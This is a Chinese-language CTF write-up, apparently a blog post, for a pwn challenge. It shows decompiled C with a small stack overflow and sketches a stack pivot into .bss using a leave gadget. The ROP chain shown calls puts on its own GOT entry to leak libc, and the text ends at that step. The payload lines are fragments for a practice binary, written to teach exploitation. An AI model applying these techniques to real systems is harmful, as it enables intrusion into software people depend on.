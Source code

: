 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[96]; // [rsp+0h] [rbp-60h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts(&s);
  read(0, buf, 0x70uLL);
  puts("Done!You can check and use your borrow stack now!");
  read(0, &bank, 0x100uLL);
  return 0;
}
```

我们在main不难发现栈溢出

但是很明显溢出长度不是很充足

只有0x10的长度 我们发现下面可以读取的大一点去康康是什么东西嗷

┗|｀O′|┛ 嗷~~





.bss:0000000000601080 bank   

不难发现是bss段落



我们可以构造rop链存放于bss段落

当我们利用函数栈修改的修改rsp

让栈指针指向bss段落，去执行我们的rop



第一步的payload

```shell
'a'*变量的offset+p64(bss_addr)+p64(leave)


```

leave指令是为了控制bq和sp寄存器

正常来说我们填充2次leave

但是程序执行是会自己含有一个leave



在bss段落的rop的这样写

p64(ret)*20+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(main)

p64(ret)*20用来抬栈避免触碰到got表导致程序崩溃

然后接受泄露的libc

